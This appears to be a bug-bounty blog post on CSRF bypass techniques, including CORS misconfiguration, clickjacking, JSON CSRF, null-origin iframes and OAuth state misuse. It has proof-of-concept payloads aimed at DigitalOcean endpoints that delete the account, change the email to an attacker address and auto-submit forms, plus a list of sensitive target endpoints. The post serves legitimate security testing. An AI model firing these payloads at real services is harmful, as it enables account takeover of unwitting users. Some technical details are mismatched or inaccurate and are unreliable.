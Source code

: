 ```yaml
---
title: "CSRF Testing Out-of-the-Box"
date: 2025-07-14 00:00:00 +0530
categories: [Vulnerability, CSRF]
tags: [Pentesting, Bug Bounty, CSRF, Vulnerability]
---
```


![Alt Text](/img/csrf-out.png)

### A. CSRF via CORS Misconfig + Token Leakage

If any `api.example.com` endpoint has :

-   `Access-Control-Allow-Origin: *` (or reflects attacker origin)
-   And cookies are still sent (`Access-Control-Allow-Credentials: true`)
-   But the CSRF token is stored in a cookie or JS-accessible

Then combine **CORS + CSRF**
```js
fetch("https://api.digitalocean.com/account/delete",  
{
method:  	  "POST",  
credentials:  "include"  
});
```
- Test all subdomains and endpoints for CORS misconfigs!

###  B. **Clickjacking + CSRF Hybrid**

CSRF protections can be bypassed if the UI can be **framed**, and a user can be tricked into clicking a malicious overlay.

Use **X-Frame-Options Bypass** or **CSS clickjacking** with transparent overlays + auto-click or social engineering traps.

Test if `X-Frame-Options` or `Content-Security-Policy: frame-ancestors` is missing.

### C. **JSON CSRF / Content-Type Bypass**

Many APIs reject `application/x-www-form-urlencoded` or `multipart/form-data` — but accept only `application/json`.

#### Bypass idea:
-   Find if you can **inject JSON using unconventional ways**, like :
```js
<script>
fetch('https://digitalocean.com/api/modify-email', {
  method: 'POST',
  body: JSON.stringify({email: 'attacker@evil.com'}),
  headers: {'Content-Type': 'application/json'},
  credentials: 'include'
});
</script>
```
- If SameSite isn’t enforced, this could still work — JSON CSRF is real.

### D. **Token in Cookie, but No SameSite**

If you see a CSRF token **stored in a cookie**, and the cookie doesn’t have `SameSite=Strict` or `Lax`, you can often **send the token yourself**:
```js
<iframe src="https://victim.digitalocean.com/endpoint?token=<static_token>" />
```
- Or inject the cookie first with document.cookie = ... (if subdomain has XSS/CORS).

### E. **CSRF via OAuth Misuse**

Check these:

-   **Connecting a GitHub account**, or **revoking integrations**
-   Account linking flows (OAuth) that return to the app with `code=...&state=...`

If **state is guessable** or absent → CSRF possible via OAuth login hijack or unauthorized account linking.

### F. **Referer / Origin Header Downgrade**

If backend checks:

-   `Origin` or `Referer` for CSRF protection
-   But also accepts **Referer: null** (e.g., sent by iframes or downloads)

Then a **null origin bypass** might be possible. Use this trick :
```js
<iframe sandbox srcdoc="
  <form action='https://digitalocean.com/account/change-email' method='POST'>
    <input name='email' value='attacker@example.com'>
    <input type='submit'>
  </form>
  <script>document.forms[0].submit();</script>
"></iframe>
```
- Modern browsers sometimes strip Referer in sandboxed iframes.

### G. **Race Condition + CSRF**

Send multiple **simultaneous requests** with different payloads:

`# Use turbo intruder or Burp's parallel request extension`

-   Bypass token validation by **racing the server**
-   Or override one CSRF token while the other is valid.

### H. **Browser Auto-Fill CSRF**

If a form field (e.g., email or address) auto-fills and the server accepts POST without CSRF token :
```js
<form action="https://digitalocean.com/update-profile" method="POST">
  <input name="email" autocomplete="email">
  <input type="submit">
</form>
<script>document.forms[0].submit();</script>
```
- This abuses the auto-filled fields by the browser — no interaction needed.

### I. **Testing via Iframes + Minimal Interaction**

Build your CSRF PoC to **mimic legit UI**. Then:

-   Load it inside an iframe
-   Trick user into interaction using `pointer-events: none` overlays, fake CAPTCHA, etc.

##  Stealth Testing Tips
### Monitor CSRF tokens:

-   Is it **tied to session** or just static?
-   Does it **rotate per request or per session**?
-   Try reusing **old tokens**, see if they're still valid
-   Try **missing token, altered token, and empty token**

### Token in JavaScript?

-   Grep for `csrfToken` in JS responses
-   Test if you can read it via XSS/CORS or any reflected parameter

###  Tools / Extensions for CSRF Hunting

-   🧬 **Burp Turbo Intruder** (for race + bypass testing)
-   🛠 **CSRFScanner plugin** (automates PoC generation)
-   🧪 **Autorize** (for IDOR/CSRF combo testing)
-   🔬 **CORSy** (for automated CORS testing)
-   ⚔️ **Corsy.py + SameSiteTest** (check cookie SameSite status programmatically)

### Bonus — Custom Burp Macro to Strip CSRF Token

1.  Create a **Burp Repeater request**.
2.  Remove the `csrf_token` header or form field.
3.  Observe if the request still works.
4.  Use **Burp macros + session handling rules** to automate this during active scans.

### Target Zones
|Area|Endpoint Guess  |
|--|--|
|Account Deletion  |/billing/update  |
|SSH Key Add|/ssh/add
|2FA Disable|/security/2fa/disable
|API Token Revoke|/api/tokens/revoke
|Support Ticket Creation|/support/ticket/new
- Always check for legacy versions : e.g. `/v1/` , `/old/`, `/admin/` , `/mobile-api/`

### Next Move

1.  Focus on **legacy endpoints or admin-only APIs**
2.  Look for **CORS misconfig, null referer, SameSite misconfig**
3.  Test **OAuth and 3rd party integration CSRF**
4.  Abuse **sandboxed iframes + auto-submit**
5.  Combine **CSRF + Clickjacking + JSON bypasses**


